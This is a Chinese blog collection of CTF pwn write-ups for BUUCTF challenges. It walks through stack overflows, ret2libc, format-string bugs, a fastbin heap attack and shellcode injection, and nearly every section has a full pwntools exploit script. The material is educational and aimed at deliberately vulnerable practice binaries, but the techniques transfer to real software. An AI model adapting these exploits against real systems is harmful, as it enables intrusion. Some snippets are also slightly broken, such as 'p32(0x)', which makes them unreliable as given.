<!--yml
category: 未分类
date: 2022-04-26 14:31:14
-->

# 【CTF题解NO.00004】BUUCTF/BUUOJ - Pwn write up by arttnb3_arttnba3的博客-CSDN博客

> 来源：[https://blog.csdn.net/arttnba3/article/details/109848247](https://blog.csdn.net/arttnba3/article/details/109848247)

# 0x000.绪论

[BUUCTF](buuoj.cn)是一个巨型CTF题库，大致可以类比OIer们的洛谷一样的地方，在BUUCTF上有着分类齐全数量庞大的各方向题目，包括各大CTF的原题

正所谓”不刷BUU非CTFer“（~~哪里有过这种奇怪的话啦~~），作为一名新晋的蒟蒻CTFer&网安专业选手，咱也来做一做BUUCTF上的题，并把题解在博客上存档一份方便后来者学习（~~快醒醒，哪里会有人看你的博客啦XD~~

Baby Pwner做的都是pwn题，点开即可查看题解👇

> 注：我会在题目的旁边写上考点
> 注2：老生常谈，CSDN阅读体验稀烂，建议来[这里](https://arttnba3.cn/2020/09/08/CTF-0X00-BUUOJ-PWN/)看

# 0x001.test your nc - nc

拖入IDA分析，发现一运行就能直接getshell



nc，成功getshell，得flag



# 0x002.rip - ret2text

惯例的`checksec`，保护全关



主函数使用了gets函数，存在栈溢出，偏移量为0xf+8个字节



可以发现直接存在一个`system("/bin/sh")`，返回到这里即可getshell



构造payload如下：

```
from pwn import *
payload = b'A' * (0xf + 8) + p64(0x40118a)

p = process('./rip')
p.sendline(payload)
p.interactive() 
```

输入我们的`payload`，直接getshell，得到flag



# 0x003.warmup_csaw_2016 - ret2text

惯例`checksec`，保护全关，可以为所欲为



拖入IDA，发现可以溢出的`gets`函数，偏移量是0x40+8个字节



又发现一个可以获得flag的gadget`system("cat flag.txt")`，控制程序返回到这里即可获得flag



故构造payload如下：

```
from pwn import *
payload = b'A'* (0x40 + 8) + p64(0x400611)

p = process('./warm_up_2016')
p.sendline(payload)
p.interactive() 
```

输入我们的payload，得到flag



# 0x004.pwn1_sctf_2016 - ret2text

惯例的`checksec`，发现只开了NX保护



拖入IDA看一下，~~然后你就会发现C++逆向出来的东西比**还**~~



我们不难看出replace函数是在该程序中的一个比较关键的函数，我们先进去简单看看：



简单通读一下我们大概知道这段代码的运行过程如下：（~~不就是**🐎有什么读不懂的，干他就完事了~~



```
std::string *__stdcall replace(std::string *a1, std::string *a2, std::string *a3, std::string *a4)
{
  int v4; // ST04_4
  int v5; // ST04_4
  int v6; // ST10_4
  char v8; // [esp+10h] [ebp-48h]
  char v9; // [esp+14h] [ebp-44h]
  char v10; // [esp+1Bh] [ebp-3Dh]
  int v11; // [esp+1Ch] [ebp-3Ch]
  char v12; // [esp+20h] [ebp-38h]
  int v13; // [esp+24h] [ebp-34h]
  int v14; // [esp+28h] [ebp-30h]
  char v15; // [esp+2Fh] [ebp-29h]
  int v16; // [esp+30h] [ebp-28h]
  int v17; // [esp+34h] [ebp-24h]
  char v18; // [esp+38h] [ebp-20h]
  int v19; // [esp+3Ch] [ebp-1Ch]
  char v20; // [esp+40h] [ebp-18h]
  int v21; // [esp+44h] [ebp-14h]
  char v22; // [esp+48h] [ebp-10h]
  char v23; // [esp+4Ch] [ebp-Ch]
                                                // 接收参数为：v6,input,v9,v7
                                                // 其中input为我们的输入，v9为字符串"I"，v7为字符串"you"
                                                // 查汇编源码可知下面的string基本都是a2，也就是input
  while ( std::string::find(a2, a3, 0) != -1 )  // 在input中寻找字符串v9（"I"），如果找不到则find方法会返回-1，跳出循环
  {
    std::allocator<char>::allocator(&v10);      // 新构造了一个allocator<char>类的实例并将地址给到v10
    v11 = std::string::find(a2, a3, 0);         // 获得"I"字符串在input中第一次出现的下标
    std::string::begin(&v12);                   // input.begin()新构造一个迭代器对象并将地址给到v12
    __gnu_cxx::__normal_iterator<char *,std::string>::operator+(&v13);// 构建operator+的迭代器对象实例给到v13
    std::string::begin(&v14);                   // input.begin()新构造一个迭代器对象并将地址给到v14
    std::string::string<__gnu_cxx::__normal_iterator<char *,std::string>>(&v9, v14, v13, &v10);// v14迭代生成的字符使用allocator（v10）分配内存、使用operator+（v13）接成新字符串给到v8
                                                // 查看汇编可知生成的字符串长度为v11（即生成的字符串为input中第一个"I"的前面所有字符构成的字符串
    std::allocator<char>::~allocator(&v10, v4); // 析构v10
    std::allocator<char>::allocator(&v15);      // 新构造了一个allocator<char>类的实例并将地址给到v15
    std::string::end(&v16);                     // input.end()新构造一个迭代器对象并将地址给到v16
    v17 = std::string::length(a3);              // 获得"I"的长度给到v17
    v19 = std::string::find(a2, a3, 0);         // 获得"I"字符串在input中第一次出现的下标给到v19
    std::string::begin(&v20);                   // begin()新构造一个迭代器对象并将地址给到v20
    __gnu_cxx::__normal_iterator<char *,std::string>::operator+(&v18);// 构建operator+的迭代器对象实例给到v18
    __gnu_cxx::__normal_iterator<char *,std::string>::operator+(&v21);// 构建operator+的迭代器对象实例给到v21
    std::string::string<__gnu_cxx::__normal_iterator<char *,std::string>>(&v8, v21, v16, &v15);// v16迭代生成的字符使用allocator（v15）分配内存、使用operator+（v21）接成新字符串给到v8
                                                // 注意在这里和前面的相似语句中字符串迭代器与operator所传入的位置是相反的
                                                // 可能是因为迭代器从后往前生成字符串？
    std::allocator<char>::~allocator(&v15, v5); // 析构v15
    std::operator+<char,std::char_traits<char>,std::allocator<char>>(&v23, &v9, a4);// v9+a4生成的字符串给到v23
                                                // 即input中第一个"I"之前的所有字符构成的字符串再加上"you"生成新字符串v23
    std::operator+<char,std::char_traits<char>,std::allocator<char>>(&v22, &v23, &v8);// v23+v8生成的字符串给到v22
                                                // 即v23再加上原input中第一个"I"之后的所有字符构成的字符串生成新字符串v22
    std::string::operator=(a2, &v22, v6);       // v22给回到a2（也就是input
    std::string::~string(&v22);                 // 析构v20
    std::string::~string(&v23);                 // 析构v21
    std::string::~string(&v8);                  // 析构v8
    std::string::~string(&v9);                  // 析构v9
  }
  std::string::string(a1, a2);                  // 拷贝input到a1（vuln中v6）
  return a1;
} 
```

我们可以大概知道replace函数的作用其实是把**输入的字符串中的所有字串A替换成字符串B再重新生成新的字符串**，而在vuln函数中A即为`"I"`，B即为`"you"`。

重新回到`vuln`函数，我们发现依然看不懂这段代码到底干了啥

这个时候其实我们可以选择看汇编代码进行辅助阅读（~~C++逆向出来的东西真的太**了~~



简单结合一下汇编代码与逆向出来的C++代码，我们容易知道该段代码的作用，如下图注释所示：



```
 fgets(&s, 32, edata);                         // 从标准输入流中读入最大32个字符到s
  std::string::operator=(&input, &s);           // 将字符串s的值拷贝到string类input中
  std::allocator<char>::allocator((int)&v8);    // 新构造了一个allocator<char>类的实例并将地址给到v8
  std::string::string((int)&v7, (int)"you", (int)&v8);// string类使用allocrator分配内存复制字符串"you"并拷贝到v7上
  std::allocator<char>::allocator((int)&v10);   // 新构造了一个allocator<char>类的实例并将地址给到v10
  std::string::string((int)&v9, (int)"I", (int)&v10);// string类使用allocrator分配内存复制字符串"I"并拷贝到v6上
  replace((std::string *)&v6, (std::string *)&input, (std::string *)&v9);// 遍历input，生成新string把原input中的'I'替换为'you'，并将重新生成后的字符串地址给到v6
  std::string::operator=(&input, &v6, v0);      // 拷贝v6回到input中，完成替换
  std::string::~string((std::string *)&v6);     // 析构v6
  std::string::~string((std::string *)&v9);     // 析构v9
  std::allocator<char>::~allocator(&v10, v1);   // 析构v10
  std::string::~string((std::string *)&v7);     // 析构v7
  std::allocator<char>::~allocator(&v8, v2);    // 析构v8
  v3 = (const char *)std::string::c_str((std::string *)&input);// 将input使用string类的c_str函数变成字符串存放在char数组中并将字符串指针赋给v3
  strcpy(&s, v3);                               // 将v3拷贝到s上 
```

简单运行一下，我们可以发现程序的确会把输入中的`I`全部替换成`you`



同时我们可以看到，溢出大概需要`0x3c`个字节，也就是60个字节


我们可以选择使用20个`I`作为padding，然后这段padding会被替换成30个`you`，刚好60个字节，在后面再覆盖掉ebp与返回地址控制程序返回到`get_flag`函数即可得到flag

故构造exp如下：

```
from pwn import *
get_flag_addr = 0x8048fd
p = process('./pwn1_sctf_2016')
payload = b'I'*20 + p32(0xdeadbeef) + p32(get_flag_addr)
p.sendline(payload)
p.recv() 
```

发送payload，得到flag



> C++逆向是真的kskjklasjdkajskdhasjdgsgdhsgdsajkqpiwourevz

# 0x005.ciscn_2019_n_1 - overwrite

惯例的`checksec`，发现只开了NX保护



拖入IDA进行分析，main中调用了func函数，直接进去看



当v2为11.28125时我们可以获取flag，而gets函数读入到v1存在溢出点可以覆写掉v2

那么问题来了，**浮点数11.28125在内存中是如何表示的呢**

我们可以直接跳转到这个数据所储存的地方，发现是`0x41348000`


故构造exp如下：

```
from pwn import *
p = process('ciscn_2019_n_1')
payload = b'A'*(0x30-0xc) + p64(0x401348000)
p.sendline(payload)
p.recv() 
```

发送payload，得到flag



# 0x006.ciscn_2019_c_1 - ret2csu + ret2libc

惯例的`checksec`，发现只开了NX保护



拖入IDA进行分析

在`encrypt()`函数中我们发现使用了gets进行读入，存在溢出点，但是我们可以观察到这个函数会对我们的输入进行处理，常规的payload会被经过程序奇怪的处理，破坏掉我们的数据

不过我们可以发现该函数是使用的`strlen()`函数来判断输入的长度，遇到`'\x00'`时会终止，而`gets()`函数遇到`'\x00'`并不会截断，因此我们可以将payload开头的padding的第一个字符置为`'\x00'`，这样我们所输入的payload就不会被程序改变

接下来考虑构造rop链getshell，基本上已经是固定套路了，**首先用`puts()`函数泄漏出`puts()`的真实地址，同时由于题目没有给出libc文件，故接下来我们考虑用`LibcSearcher`获取libc，然后libc的基址、`/bin/sh`和`system()`的地址就都出来了，配合上csu中的gadget即可getshell**

故构造exp如下：

```
from pwn import *
from LibcSearcher import *

e = ELF('./ciscn_2019_c_1')
offset = 0x50
enc_addr = 0x4009a0
pop_rdi = 0x400c83
retn = 0x400c84

payload1 = '\x00' + b'A'*(offset-1) + p64(0xdeafbeef) + p64(retn) + p64(retn) + p64(retn) + p64(retn) + p64(retn) + p64(retn) + p64(pop_rdi) + p64(e.got['puts']) + p64(e.plt['puts']) + p64(enc_addr)

p = remote('node3.buuoj.cn',27832)
p.sendline(b'1')
p.recv()
p.sendline(payload1)
p.recvuntil('Ciphertext\n\n')
s = p.recv(6)
puts_addr = u64(s.ljust(8,b'\x00'))
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')
payload2 = '\x00' + b'A'*(offset-1) + p64(0xdeadbeef) + p64(retn) + p64(pop_rdi) + p64(sh_addr) + p64(sys_addr)
p.sendline(payload2)
p.interactive() 
```

运行我们的exp，成功getshell



> 发生了很多很玄学的问题（👈其实就是李粗心大意罢le），导致这道题虽然早就有了思路，但是用的时间比预期要长的多
> 
> 以及LibcSearcher在本地无法getshell，换成本地的libc就好了（玄学问题变多了（~~其实只是LibcSearcher库不全⑧~~））
> 
> 以及Ubuntu 18下偶尔会发生栈无法对齐的情况，多retn几次就好了（确信）

# 0x007.[OGeek2019]babyrop - ret2libc

惯例的`checksec`，发现只开了栈不可执行保护



拖入IDA进行分析：



main函数首先会获取一个随机数，传入`sub_804871F()`中



该函数会将随机数作为字符串输出到s，之后读取最大0x20个字节的输入到v6，用`strlen()`计算v6长度存到v1并与s比对v1个字节，若不相同则直接退出程序

考虑到`strlen()`函数以`'\x00'`字符作为结束标识符，故我们只需要在输入前放上一个`'\x00'`即可避开这个检测

之后会将v5的数值返回到主函数并作为参数又给到`sub_80487D0()`函数，简单看一下我们便可以发现该函数读取最大v5个字节的输入到`buf`中，而`buf`距离`ebp`只有0xe7个字节



由于没有可以直接getshell的函数，故考虑在第一次输入时将v5覆写为`0xff`以保证能够读取的输入长度最大，在第二次输入时构造rop链使用write函数泄露write的地址，再使用libcsearcher得到libc基址与`system()`和`"/bin/sh"`字符串的地址，最后构造rop链调用`system("/bin/sh")`即可getshell

构造exp如下：

```
from pwn import *
from LibcSearcher import *
e = ELF('./pwn')
write_plt = e.plt['write']
write_got = e.got['write']
payload1 = b'\x00' + 7* b'\xff'
payload2 = b'A' * 0xe7 + p32(0xdeadbeef) + p32(write_plt) + p32(0x80487d0) + p32(0x1) + p32(write_got) + p32(0x8)

p = process('./pwn')
p.sendline(payload1)
p.recvuntil(b'Correct\n')
p.sendline(payload2)
write_addr = u32(p.recv(4))
libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
sys_addr = libc_base + libc.dump('system')
sh_addr = libc_base + libc.dump('str_bin_sh')

payload3 = b'A'*0xe7 + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr)
p.sendline(payload3)
p.interactive() 
```

运行脚本即可getshell



# 0x008.jarvisoj_level0 - ret2text

> 好多重复考点的简单题啊…

惯例的`checksec`，发现只开了栈不可执行保护



拖入IDA进行分析，可以发现存在一个可以溢出的函数`vulnerable_function()`，只需要`0x80`个字节即可溢出



同时存在一个可以直接getshell的函数`callsystem()`

直接构造payload覆写返回地址到`callsystem()`函数即可getshell

exp如下：

```
from pwn import *

payload = b'A'*0x80 + p64(0xdeadbeef) + p64(0x400596)

p = process('level0')
p.recv()
p.sendline(payload)
p.interactive() 
```



# 0x009.ciscn_2019_en_2 - ret2csu + ret2libc

惯例的`checksec`，发现只开了栈不可执行保护



拖入IDA进行分析~~感觉这题好像在哪个地方做过的样子~~（~~ciscn_2019_c_1~~）

在`encrypt()`函数中我们发现使用了gets进行读入，存在溢出点，但是我们可以观察到这个函数会对我们的输入进行处理，常规的payload会被经过程序奇怪的处理，破坏掉我们的数据

不过我们可以发现该函数是使用的`strlen()`函数来判断输入的长度，遇到`'\x00'`时会终止，而`gets()`函数遇到`'\x00'`并不会截断，因此我们可以将payload开头的padding的第一个字符置为`'\x00'`，这样我们所输入的payload就不会被程序改变

接下来考虑构造rop链getshell，基本上已经是固定套路了，**首先用`puts()`函数泄漏出`puts()`的真实地址，同时由于题目没有给出libc文件，故接下来我们考虑用`LibcSearcher`获取libc，然后libc的基址、`/bin/sh`和`system()`的地址就都出来了，配合上csu中的gadget即可getshell**

构造exp如下：

```
from pwn import *
from LibcSearcher import *

p = remote('node3.buuoj.cn',25348)
e = ELF('./ciscn_2019_en_2')

puts_plt = e.plt['puts']
puts_got = e.got['puts']
main_addr = 0x400b28
pop_rdi_ret = 0x400c83
retn = 0x400c84
offset = 0x50

payload1 = b'\x00' + b'A'*(offset-1) + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main_addr)

p.recv()
p.sendline('1')
p.recv()
p.sendline(payload1)
p.recvuntil('text\n\n')
puts_addr = u64(p.recv(6).ljust(8,b'\x00'))
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
sys_addr = libc_base + libc.dump('system')
sh_addr = libc_base + libc.dump('str_bin_sh')

payload2 = b'\x00' + b'A'*(offset-1) + p64(0xdeadbeef) + p64(retn) +p64(pop_rdi_ret) + p64(sh_addr) + p64(sys_addr)

p.sendline('1')
p.sendline(payload2)
p.interactive() 
```



> 需要注意的是Ubuntu 18有的时候会存在栈无法对齐的情况，可以多使用几次`retn`的gadget来对其栈

# 0x00A.[第五空间2019 决赛]PWN5 - fmtstr

惯例的`checksec`，发现开了NX保护和canary



拖入IDA进行分析：



该程序获取一个随机数，读入到`0x804c044`上，随后两次读入用户输入并判断第二次输入与随机数是否相同，相同则可以获得shell

我们可以发现存在**格式化字符串漏洞**，可以进行**任意地址读与任意地址写**，故考虑将`0x804c044`地址上的随机数覆写为我们想要的值，随后直接输入我们覆写的值即可getshell

同时我们简单的跑一下这个程序就可以知道格式字符串是位于栈上的第10个参数（“aaaa” == 0x61616161）



我们可以使用pwntools中的`fmtstr_payload()`来比较方便地构造能够进行任意地址写的payload

> 具体用法可以百度，这里就不再摘抄一遍了

故构造exp如下：

```
from pwn import *

payload = fmtstr_payload(10,{0x804c044:0x1})

p = process('./pwn')
p.sendline(payload)
p.sendline(str(0x1))
p.interactive() 
```



# 0x00B.[BJDCTF 2nd]r2t3 - integer overflow + ret2text

惯例的`checksec`，发现只开了栈不可执行保护



拖入IDA进行分析

主函数中读入最大0x400个字节，但是开辟了0x408字节的空间，无法溢出



同时主函数会将输入传入`name_check()`函数中，若通过`strlen()`计算出来的长度在4~8个字节之间则会将我们的输入通过`strcpy()`拷贝至`dest`上，而这里到ebp之间只有`0x11`个字节的空间，我们完全可以通过这段代码覆盖掉该函数的返回地址



同时我们可以观察到存在可以直接getshell的后门函数



考虑到在`name_check()`函数中用来存放输入长度的变量为8位无符号整型，范围为0~255，故我们只需要输入260个字节便可以发生上溢降使该变量的值上溢为4，绕过判定

故构造exp如下：

```
from pwn import *

payload = b'A'*0x11 + p32(0xdeadbeef) + p32(0x)

p = process('./r2t3')
p.sendline(payload)
p.interactive() 
```

发送payload即可getshell



# 0x00C.get_started_3dsctf_2016 - ret2text || ret2shellcode

> 注：这是一道屑题

惯例的`checksec`，发现只开了栈不可执行保护



拖入IDA进行分析，可以发现存在一个赤裸裸的`gets()`溢出



同时存在一个`get_flag()`函数可以获取flag，不过要求参数1为`0x308cd64f`，参数2为`0x195719d1`



## 解法1：ret2text

32位程序通过栈传参，故构造exp如下：

```
from pwn import *

payload = b'A'*0x38 + p32(0x80489A0) + p32(0xdeadbeef) + p32(0x308CD64F) + p32(0x195719D1)

p = process('./get_started_3dsctf_2016')
p.sendline(payload)
p.interactive() 
```

不过很明显，出题人的环境很明显有丶小问题🔨🔨🔨，远程跑不通这个payload



问题出在哪呢？该程序尝试打开的是`flag.txt`文件，但是平台所自动生成的是`flag`文件，故此种方法**无法获得flag**

我们尝试寻找第二种解法

## 解法2：ret2shellcode

首先我们发现在程序中编入了大量的函数，其中就包括`mprotect()`，可以修改指定内存地址的权限



故考虑使用`mprotect()`修改内存段权限为可读可写可运行后在上面写入shellcode并跳转至内存段执行shellcode以getshell

在**pwndbg**中使用`vmmap`查看可以用的内存段，前面三个段随便选一个就行



需要注意的是我们需要手动将`mprotect()`的参数弹出（日常踩坑）

```
from pwn import *

p = process('./get_started_3dsctf_2016')
e = ELF('./get_started_3dsctf_2016')

pop_ebx_esi_edi_ebp_ret = 0x804951c
mprotect_addr = e.sym['mprotect']
read_addr = e.sym['read']
sc_addr = 0x80ec000
offset = 0x38

payload1 = b'A'*offset + p32(mprotect_addr) + p32(pop_ebx_esi_edi_ebp_ret) + p32(sc_addr) + p32(0x100) + p32(0x7) + p32(0xdeadbeef)  + p32(read_addr) + p32(sc_addr) + p32(0) + p32(sc_addr) + p32(0x100)

payload2 = asm(shellcraft.sh())

p.sendline(payload1)
sleep(1)
p.sendline(payload2)
p.interactive() 
```

运行脚本即可getshell



# 0x00D.ciscn_2019_n_8 - overwrite

惯例的`checksec`，发现开了**栈不可执行、地址随机化、Canary**三大保护（~~噔 噔 咚~~



拖入IDA进行分析



使用scanf读入字符串到变量`var`，存在漏洞，同时程序会将var的地址转换为一个(_QWORD)类型指针（长度为四字节），并判断`var[13]`是否为`0x11`，若是则返回一个shell

故考虑直接输入将`var[13]`覆写为`0x11`即可getshell

构造exp如下：

```
from pwn import *

payload = b'A'*13*4 + p32(0x11)

p = process('./ciscn_2019_n_8') 
p.recv()
p.sendline(payload)
p.interactive() 
```



# 0x00E.not_the_same_3dsctf_2016 - ret2shellcode

> not the same（指 same（

惯例的`checksec`，发现只开了栈不可执行保护



拖进IDA里康康



主函数中直接存在可以被利用的`gets()`函数，同时还给了我们一个提示信息——**bora ver se tu ah o bichao memo**，大致可以翻译为：**Did you see the wrong note?**~~看起来似乎没什么用的样子~~

尝试先使用与前一题相同的思路来解

首先用`pwndbg`的`vmmap`查看可以用的内存



同时IDA中我们发现程序中依然存在`mprotect()`函数可以改写权限



和前一题所不同的是gadget的位置有丶小变化（~~原来只有这个不同🐎~~）



故我们可以使用**与前一题几乎完全相同的exp**来getshell，只需要把csu里的gadget的地址稍微修改一下即可

构造exp如下：

```
from pwn import *

p = process('./not_the_same_3dsctf_2016')
e = ELF('./not_the_same_3dsctf_2016')

pop_ebx_esi_edi_ebp_ret = 0x80494dc
mprotect_addr = e.sym['mprotect']
read_addr = e.sym['read']
sc_addr = 0x80ea000
offset = 0x2d

payload1 = b'A'*offset + p32(mprotect_addr) + p32(pop_ebx_esi_edi_ebp_ret) + p32(sc_addr) + p32(0x100) + p32(0x7) + p32(0xdeadbeef)  + p32(read_addr) + p32(sc_addr) + p32(0) + p32(sc_addr) + p32(0x100)

payload2 = asm(shellcraft.sh())

p.sendline(payload1)
sleep(1)
p.sendline(payload2)
p.interactive() 
```

运行脚本即得shell



# 0x00F.one_gadget - one_gadget

> 首先从题目名字我们就可以看出这道题应该需要我们用到一个工具——[one_gadget](https://github.com/david942j/one_gadget)
> 
> 什么是one_gadget？即在libc中存在着的可以直接getshell的gadget

惯例的`checksec`，发现**保 护 全 开**（**心 肺 停 止**



拖进IDA里分析


主函数会读入一个整数到**函数指针**v4中，并尝试执行`v4()`，故我们只需要输入**one_gadget**的地址即可getshell

使用`one_gadget`工具可以找出libc中的getshell gadget

> 不明原因在arch上一直没法运行，只好切到Ubuntu



但是我们还需要知道libc的基址

我们可以发现在`init()`函数中会输出`printf()`函数的地址，有了这个我们便可以计算出libc的基址，也就有了one_gadget的真实地址

而题目也给了我们libc，故构造exp如下：

```
from pwn import *

one_gadget = 0xe237f

p = process('./one_gadget')
e = ELF('./one_gadget')
libc = ELF('./libc-2.29.so')

p.recvuntil('here is the gift for u:')
printf_addr = u64(p.recvuntil('\n',drop = True).ljust(8,b'\x00'))
libc_base = printf_addr - libc.sym['printf']
getshell = libc_base + one_gadget
p.sendline(str(getshell))
p.interactive() 
```

# 0x010.jarvisoj_level2 - ret2text

惯例的`checksec`，发现只开了栈不可执行保护



拖入IDA进行分析



读入最大0x100字节，但是`buf`到ebp之间只有0x88字节的空间，存在溢出

同时我们也可以知道该程序中有`system()`函数可以利用

同时程序中还存在`"/bin/sh"`字符串



故只需要构造rop链执行`system("/bin/sh")`即可getshell

构造exp如下：

```
from pwn import *

p = process('./level2')
e = ELF('./level2')
sh_addr = 0x804A024

payload = b'A'*0x88 + p32(0xdeadbeef) + p32(e.plt['system']) + p32(0xdeadbeef) + p32(sh_addr)

p.sendline(payload)
p.interactive() 
```

运行即可getshell



# 0x011.[HarekazeCTF2019]baby_rop - ret2text + ret2csu

惯例的`checksec`，发现只开了栈不可执行保护



拖入IDA进行分析



使用`scanf("%s")`读入字符串，存在溢出漏洞



存在`system()`函数



存在`/bin/sh`字符串

故考虑使用csu中gadget构造rop链执行`system("/bin/sh")`函数以getshell


构造exp如下：

```
from pwn import *

sh_addr = 0x601048
pop_rdi_ret = 0x400683

p = remote('node3.buuoj.cn',27558)
e = ELF('./babyrop')

payload = b'A'*0x10 + p64(0xdeadbeef) + p64(pop_rdi_ret) +  p64(sh_addr) + p64(e.sym['system'])
p.sendline(payload)
p.interactive() 
```

运行即得flag



> 好多一样的题啊Or2

# 0x012.bjdctf_2020_babystack - ret2text

> 又是一模一样的题。。。

惯例的`checksec`，发现只开了栈不可执行保护



拖入IDA进行分析



主函数中用户可以控制读入的字符数量，存在溢出

同时存在可以getshell的`backdoor()`函数



故考虑构造rop链执行`backdoor()`函数即可

构造exp如下

```
from pwn import *

payload = b'A'*0x10 + p64(0xdeadbeef) + p64(0x4006e6)

p = remote('node3.buuoj.cn',25806)
p.sendline(b'100')
p.sendline(payload)
p.interactive() 
```

运行即可getshell



# 0x013.babyheap_0ctf_2017 - Unsorted bin leak + Fastbin Attack + one_gadget

> 来到BUU后做的第一道堆题

惯例的`checksec`，发现**保 护 全 开**（**心 肺 停 止**



拖入IDA里进行分析（以下部分函数、变量名经过重命名）

常见的堆题基本上都是菜单题，本题也不例外

我们可以发现在`writeHeap()`函数中并没有对我们输入的长度进行检查，**存在堆溢出**



故我们考虑先创建几个小堆块，再创建一个大堆块，free掉两个小堆块进入到fastbin，用堆溢出改写fastbin第一个块的fd指针为我们所申请的大堆块的地址，需要注意的是fastbin会对chunk的size进行检查，故我们还需要先通过堆溢出改写大堆块的size，之后将大堆块分配回来后我们就有两个指针指向同一个堆块



利用堆溢出将大堆块的size重新改大再free以送入unsorted bin，此时大堆块的fd与bk指针指向main_arena+0x58的位置，利用另外一个指向该大堆块的指针输出fd的内容即可得到main_arena+0x58的地址，就可以算出libc的基址



接下来便是fastbin attack：将某个堆块送入fastbin后改写其fd指针为__malloc_hook的地址（__malloc_hook位于main_arena上方0x10字节处），再将该堆块分配回来，此时fastbin中该链表上就会存在一个我们所伪造的位于__malloc_hook上的堆块，申请这个堆块后我们便可以改写malloc_hook上的内容为后门函数地址，最后随便分配一个堆块便可getshell

考虑到题目中并不存在可以直接getshell的后门函数，故考虑使用one_gadget以getshell



需要注意的是fastbin存在size检查，故具体的**能够让fake chunk的size刚好为特定值**的那个地址可能位于__malloc_hook上方的某一处，需要我们多次尝试得到偏移量

构造payload如下：

```
from pwn import *
p = remote('node3.buuoj.cn',27143)
libc = ELF('./libc-2.23.so')

def alloc(size:int):
    p.sendline('1')
    p.recvuntil('Size: ')
    p.sendline(str(size))

def fill(index:int,content):
    p.sendline('2')
    p.recvuntil('Index: ')
    p.sendline(str(index))
    p.recvuntil('Size: ')
    p.sendline(str(len(content)))
    p.recvuntil('Content: ')
    p.send(content)

def free(index:int):
    p.sendline('3')
    p.recvuntil('Index: ')
    p.sendline(str(index))

def dump(index:int):
    p.sendline('4')
    p.recvuntil('Index: ')
    p.sendline(str(index))
    p.recvuntil('Content: \n')
    return p.recvline()

alloc(0x10) 
alloc(0x10) 
alloc(0x10) 
alloc(0x10) 
alloc(0x80) 

free(1) 
free(2) 

payload = p64(0)*3 + p64(0x21) + p64(0)*3 + p64(0x21) + p8(0x80)
fill(0,payload)

payload = p64(0)*3 + p64(0x21)
fill(3,payload)

alloc(0x10) 
alloc(0x10) 

payload = p64(0)*3 + p64(0x91)
fill(3,payload)
alloc(0x80) 
free(4) 

main_arena = u64(dump(2)[:8].strip().ljust(8,b'\x00')) - 0x58
malloc_hook = main_arena - 0x10
libc_base = malloc_hook - libc.sym['__malloc_hook']
one_gadget = libc_base + 0x4526a

alloc(0x60) 
free(4) 
payload = p64(malloc_hook - 0x23)
fill(2,payload) 

alloc(0x60) 
alloc(0x60) 

payload = b'A'*0x13 + p64(one_gadget)
fill(6,payload)

alloc(0x10)
p.interactive() 
```

运行脚本即得flag



# 0x014.ciscn_2019_n_5 - ret2shellcode

惯例的`checksec`，发现近乎保护全关，整挺好



拖入IDA进行分析


一开始先向bss段上的`name`读入最大`0x64`字节的内容，之后再使用`gets()`读入到text上，存在栈溢出

故考虑先向`name`上写入shellcode再控制程序跳转至`name`即可

bss段上`name`的地址为`0x601080`



构造exp如下：

```
from pwn import *
context.arch = 'amd64'

bss_addr = 0x601080
payload = b'A'*0x20 + p64(0xdeadbeef) + p64(bss_addr)

p = process('./ciscn_2019_n_5')
p.sendline(asm(shellcraft.sh()))
p.sendline(payload)
p.interactive() 
```

运行，成功getshell



# 0x015.level2_x64 - ret2csu

惯例的`checksec`，发现只开了NX保护



拖入IDA进行分析



在`vulnerable_function()`处存在栈溢出，且存在`system()`函数



在.data段存在`"/bin/sh"`字符串

故考虑构造rop链执行`system("/bin/sh")`即可getshell

构造exp如下：

```
from pwn import *

sh_addr = 0x600A90
pop_rdi_ret = 0x4006B3
call_sys = 0x400603
payload = b'A'*0x80 + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(sh_addr) + p64(call_sys)

p = process('./level2_x64')
p.sendline(payload)
p.interactive() 
```

运行脚本即得flag



# 0x016.ciscn_2019_ne_5 - ret2text

惯例的`checksec`，发现只开了NX保护



拖入IDA进行分析



看起来长得像堆题但其实完全没有堆的操作，还是传统的栈题

在`AddLog()`函数中读入最大128字节到字符串`src`中



在`GetFlag()`函数中会拷贝`src`到`dest`上，存在栈溢出



同时程序中存在`system()`函数与`sh`字符串




故直接溢出控制程序执行`system("/bin/sh")`即可

构造exp如下：

```
from pwn import *

sh_addr = 0x80482ea
call_sys = 0x80486b9
payload = b'A'*0x48 + p32(0xdeadbeef) + p32(call_sys)  + p32(sh_addr)

p = process('./ciscn_2019_ne_5')
p.sendline(b'administrator')
p.sendline(b'1')
p.sendline(payload)
p.sendline(b'4')
p.interactive() 
```

运行即可getshell



# 0x017.ciscn_2019_s_3 - ret2csu || SROP

> 应[某位可爱的女师傅](https://ll1ng.github.io)的要求先来做这道题（（（

惯例的`checksec`，发现只开了栈不可执行保护



拖入IDA进行分析：




可以看到，`main()`函数会调用`vuln()`函数，在`vuln()`函数中会调用两个**系统调用**——0号系统调用`sys_read`读入最大**0x400**个字节到buf上，buf只分配到了**0x10**个字节的空间，存在栈溢出；随后调用1号系统调用`sys_write`输出buf上的**0x30**字节的内容

同时我们还可以观察到有一个没有被用到的`gadget()`函数，里面有两条gadget**将rax设为0xf或0x3b**，也就是15或59



而`syscall`指令从**rax寄存器**中读取值并调用相对应的系统调用（从程序本身的代码我们也可以看出这一点），对应的我们可以想到的是这个gadget要我们通过相应的**系统调用**来getshell

在64位Linux下，15号系统调用是**rt_sigreturn**，而59号系统调用则是我们所熟悉的**execve**，~~那么这个系统调用该怎么利用呢我暂且蒙在古里~~

> 系统调用一览表见[这里](https://archive.next.arttnba3.cn/2000/10/12/%E3%80%90%E8%B5%84%E6%96%99%E5%AD%98%E6%A1%A3-0x01%E3%80%91Linux%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8%E4%B8%80%E8%A7%88-by-arttnba3)

